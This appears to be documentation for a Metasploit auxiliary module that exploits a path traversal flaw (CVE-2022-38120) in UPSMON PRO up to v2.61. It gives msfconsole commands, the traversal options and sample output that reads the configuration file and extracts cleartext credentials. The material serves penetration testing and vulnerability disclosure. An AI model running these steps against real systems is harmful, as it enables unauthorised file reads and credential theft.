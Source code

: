 ## Vulnerable Application

This module exploits a path traversal vulnerability in UPSMON PRO <= v2.61 (CVE-2022-38120) to read arbitrary files from the system.
By default, the configuration file will be retrieved, which contains the credentials (CVE-2022-38121) for the web service, mail server,
application, and SMS service.
However, any arbitrary file can be specified.

## Testing

The software can be obtained from
[the vendor](https://www.upspowercom.com/PRO-Windows.jsp).

The web server is disabled by default and needs to be enabled first. In the menu, go to Configuration > UPS Connect, and enable the Web
Server checkbox.
By default, the server listens on TCP port 8000 on all network interfaces and runs in the context of NT AUTHORITY\SYSTEM.

**Successfully tested on**

- UPSMON PRO v2.61 on Windows 22H2
- UPSMON PRO v2.57 on Windows 22H2

## Verification Steps

1. Install and run the application
2. Enable the Web Server module
3. Start `msfconsole` and run the following commands:

```
msf6 > use auxiliary/gather/upsmon_traversal
msf6 auxiliary(gather/upsmon_traversal) > set RHOSTS <IP>
msf6 auxiliary(gather/upsmon_traversal) > run
```

This should return the UPSMON PRO configuration file, UPSMON.ini, which contains various cleartext credentials. Any files retrieved will
be stored as loot.

## Options

### FILE
The file to be retrieved from the file system. By default, this is the UPSMON PRO configuration file, UPSMON.ini. However, any arbitrary
file can be specified.

Example: /Users/Public/UPSMON-Pro/UPSMON.ini

### DEPTH
The traversal depth. The FILE path will be prepended with ../ * DEPTH.

## Scenarios

Running the exploit against v2.61 on Windows 22H22 should result in an output similar to the following:

```
msf6 auxiliary(gather/upsmon_traversal) > run
[*] Running module against 192.168.137.218

[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[+] File retrieved: ../../../../Users/Public/UPSMON-Pro/UPSMON.ini
[*] UPSMON.ini specified, parsing credentials:
[*] SMTP: (not configured)
[*] Port: 25
[*] Email UserName: (not configured)
[*] Email Password: (not configured)
[*] WebServer UserName: UPSMON
[*] WebServer Password: UPSMON
[*] Main AppPassword: UPSMON
[*] SMS UserName: (not configured)
[*] SMS Password: (not configured)
[*] UPS Name: (not configured)
[*] Phone Number: (not configured)
[*] File saved as loot.
[*] Auxiliary module execution completed
```

The file will be stored as loot:

```
msf6 auxiliary(gather/upsmon_traversal) > loot

Loot
====

host             service  type                         name                                 content     info                                               path
----             -------  ----                         ----                                 -------     ----                                               ----
192.168.137.218           upsmonpro.file               /USERS/public/upsmon-pro/upsmon.ini  text/plain  File retrieved through UPSMON PRO path traversal.  /home/foo/.msf4/loot/20250502145519_default_192.168.137.218_upsmonpro.file_396058.txt
```
